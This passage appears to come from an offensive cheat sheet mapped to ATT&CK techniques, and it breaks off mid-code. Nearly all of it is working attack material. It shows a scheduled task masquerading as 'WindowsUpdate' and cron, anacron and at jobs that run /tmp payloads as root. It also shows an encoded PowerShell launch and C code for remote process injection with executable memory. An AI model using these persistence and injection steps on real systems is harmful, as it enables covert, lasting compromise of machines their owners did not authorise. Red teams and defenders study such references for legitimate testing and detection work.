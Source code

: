 ```powershell
Register-ScheduledTask -TaskName "WindowsUpdate" -Action $action -Trigger $trigger -Principal $principal

# Execute immediately
schtasks /run /tn "WindowsUpdate"
```

### 3.2 Linux Cron Jobs (T1053.003)

```bash
# Add cron job
(crontab -l 2>/dev/null; echo "*/10 * * * * /tmp/payload.sh") | crontab -

# System-wide cron
echo "*/5 * * * * root /tmp/payload.sh" >> /etc/crontab

# Cron.d directory
echo "*/5 * * * * root /usr/bin/python /tmp/payload.py" > /etc/cron.d/update

# Anacron (runs missed jobs)
echo "1 5 update /usr/bin/python /tmp/payload.py" >> /etc/anacrontab
```

### 3.3 At Command (T1053.002)

```batch
# Windows AT command (legacy)
at 14:00 /every:M,T,W,Th,F cmd.exe /c "powershell.exe -enc <BASE64>"

# Linux at command
echo "/tmp/payload.sh" | at now + 1 minute
echo "/usr/bin/python /tmp/payload.py" | at 14:00
```

---

## 4. Native API Execution (T1106)

### 4.1 Direct Windows API Calls

```c
#include <windows.h>

int main() {
    // CreateProcess via API
    STARTUPINFO si = {0};
    PROCESS_INFORMATION pi = {0};
    si.cb = sizeof(si);
    
    CreateProcessA(
        "C:\\Windows\\System32\\cmd.exe",
        " /c calc.exe",
        NULL, NULL, FALSE, 0, NULL, NULL, &si, &pi
    );
    
    // VirtualAllocEx + WriteProcessMemory + CreateRemoteThread
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, target_pid);
    
    LPVOID remote_buffer = VirtualAllocEx(hProcess, NULL, sizeof(shellcode),
                                          MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    
    WriteProcessMemory(hProcess, remote_buffer, shellcode, sizeof(shellcode), NULL);
    
    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0,
```